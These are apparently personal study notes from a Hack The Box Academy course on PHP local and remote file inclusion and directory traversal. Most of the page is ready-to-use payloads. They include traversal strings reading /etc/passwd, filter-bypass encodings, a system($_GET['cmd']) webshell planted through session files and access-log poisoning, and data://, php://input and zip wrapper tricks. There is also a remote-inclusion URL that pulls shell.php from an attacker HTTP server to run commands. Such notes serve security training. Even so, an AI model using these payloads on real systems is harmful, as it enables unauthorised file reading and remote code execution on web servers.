 ```yaml
---
layout: default
---
```


<[Back to Main Page](../index.html)

# FILE INCLUSION / DIRECTORY TRAVERSAL
Usefull link:  
https://academy.hackthebox.com/course/preview/file-inclusion--directory-traversal/local-file-inclusion  

## TLDR
Local File Inclusion and Path Traversal uses a bunch on vulnerbilities in PHP configuration. If PHP isnt securly configured or if the code is written poorly, attackers can use thoes gaps to get file contents on the server and inject their own malicious commands to gain remote access to the server.  
The below will show commands and queries I can use to try and get insignt into what is on the machine, what I can access and what I can inject.  

## Quick Examples
"index.php?language=../../../../../../../../../etc/passwd"  
"index.php?language=....//....//....//....//....//....//....//....//etc/passwd"  
....// = %2e%2e%2e%2e%2f%2f  

"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt"  
"index.php?language=<?php system($_GET['cmd']); ?>"  
"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami"  

Base encoded PHP webshell  
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
"index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id"
```

```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

```bash
python3 -m http.server 8080
```
"index.php?language=http://localhost:8080/shell.php"  
"index.php?page=php://filter/read=convert.base64-encode/resource=index"  
"index.php?language=http://10.10.14.23:8080/shell.php&cmd=cat /exercise/flag.txt"  

The output of the command id can be seen in the image above. Some other files that can be included based on the scenario are /var/log/nginx/access.log, /var/log/apache2/access.log, /var/log/sshd.log, /var/log/mail, and /var/log/vsftpd.log.  

## Notes
### Local File Inclusion
What is Local File Inclusion:  
File inclusion vulnerabilities can often be found in GET request parameters. Server-side scripts include certain files based on the user's choice or input, for example, file downloads, choice of language, or website navigation.  

This attack can be done when there is an input on the URL where it will find a file and include it in the website. For example "index.php?language=es.php" You can then change this to be "index.php?language=/etc/passwd" which will include the passwd file instead of the php file.  

The verbose error returned shows us the string passed to the include() function, stating that there is no /etc/passwd in the languages folder. This restriction can be bypassed by traversing directories using a few ../ before the desired file name.
Example "index.php?language=../../../../../../../../../etc/passwd"  

Instead, prefixing a / before the payload will bypass the filename and traverse directories instead.
Example "index_2.php?language=/../../../../../etc/passwd"  

Scripts can employ search and replace techniques to avoid path traversals. For example:  
$language = str_replace('../', '', $_GET['language']);  
This will attempt to replace the traversal attack.  
You can try and get arorund this by adding an extra ....// and the script will remove ../ leaving ../  
Example "index.php?language=....//....//....//....//....//....//....//....//etc/passwd"  

On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.  
In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.  

### LFI to Remote Code Execution  
PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found here. The php:// wrapper is enabled by default and interacts with IO streams. For example: php://stdin and php://stdout can be used to access input and output streams for the process, while php://input and php://output are used to access request data. One handy wrapper is php://filter, which can be chained with multiple filters to achieve the desired output.  

For example, the filter php://filter/read=/resource=/etc/passwd reads the resource /etc/passwd and outputs the contents. The read filter can process the input with various string operations, such as base64 encoding, ROT13 encoding, etc.  

The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.  
Example "index.php?language=php://filter/read=convert.base64-encode/resource=config"  

PHP versions before 5.5 are vulnerable to null byte injection, meaning that adding a null byte at the end of the filename should bypass the extension check. For example: language=/etc/passwd%00 will result in the statement include("/etc/passwd%00.php"), where the server ignores everything after the null byte.  

With remote file inclusions you can use tools like burpsite to inject PHP code into log files or internal files. This allows us to run our system commands on the box.  
For example we run the request "index.php?language=/var/log/apache2/access.log" and we can change the User Agent to "<?php system($_GET['cmd']); ?>" which whill allow us to inject our system commands into the php page.  
The next request we send reading access.log we will pull the php and we add the cmd=... which will specify our command.  
Example "index.php?language=/var/log/apache2/access.log&cmd=cat%20/exercise/flag.txt"  

"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt"  
"index.php?language=<?php system($_GET['cmd']); ?>"  
"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami"  

### Other PHP Wrappers
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.  

The data wrapper can be used to include external data, even PHP code. It's possible to use this only if the allow_url_include setting is enabled in the PHP configuration.  
"index.php?page=php://filter/read=convert.base64-encode/resource=index"  

Base encoded PHP webshel
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
http://blog.inlanefreight.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
```

Similar to the data wrapper, the input wrapper can be used to include external input and execute code. It also needs the allow_url_include setting enabled.  
```bash
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input" | grep uid
```

The zip wrapper can prove useful in combination with file uploads.  
```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

### Remote File Inclusion
Remote File Inclusion or RFI occurs when wensites allow the inclusion of remotly hosted files. For example the files localy on the attackers device or C2 server.  

To include a remote file in PHP, the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on. Start a python HTTP server on port 8080 on localhost and then pass a URL to it through the language parameter.  
Example: "index.php?language=http://localhost:8080/file"  

Next, use the ftp:// scheme to access shell.php present in the FTP root.  
"index.php?language=ftp://user:pass@localhost/shell.php&cmd=id"  
When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.  
